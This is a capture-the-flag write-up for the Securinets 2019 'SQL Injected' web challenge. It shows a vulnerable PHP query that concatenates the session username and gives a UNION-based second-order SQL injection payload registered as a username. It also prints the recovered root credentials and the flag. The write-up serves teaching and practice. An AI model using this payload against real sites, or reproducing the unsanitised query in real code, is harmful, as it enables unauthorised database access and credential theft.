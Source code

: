# Securinets Prequals CTF 2019 – SQL Injected

* **Category:** Web
* **Points:** 984

## Challenge

> Task url: https://web5.ctfsecurinets.com 
> 
> You can download the source code [here](public/)
> 
> Author: Oussama
> 
> ps: i don't like the task's name

## Solution

The target is to connect to `https://web5.ctfsecurinets.com/flags.php` with a user having the proper `role` value (i.e. `1`).

Analyzing the source files, a code vulnerable to SQL injection can be spotted into `index.php`.

```php
$sql = "SELECT * FROM posts WHERE author = '". $_SESSION['username'] ."'";
```

The username taken from the session is not properly sanitized. This vulnerability could be triggered via the own username after the authentication.

The database is like the following (based on `create_db.sql`).

```sql
create database webn;
create table users (id int auto_increment primary key, login varchar(100), password varchar(100), role boolean default 0);
create table posts (id int auto_increment primary key, title varchar(50), content text, date Date, author varchar(100));
```

So, a possible malicious input for the username, in order to print the details of the user with the proper role, is the following.

```sql
' UNION SELECT id, login, password, NULL, NULL FROM users WHERE role = 1 AND '' = '
```

A user with this value for the username must be registered. After the first automatic login, the SQL injection will not have effect: you have to logout and re-login in order to find the details of the searched user under the post search section.

```
root
jjLLgTGk3uif2rKBVwqH
```

Logging in with that user and connecting to `https://web5.ctfsecurinets.com/flags.php` will print the flag.

```
Securinets{5VuCj0JUr43jwQDpncRA}
```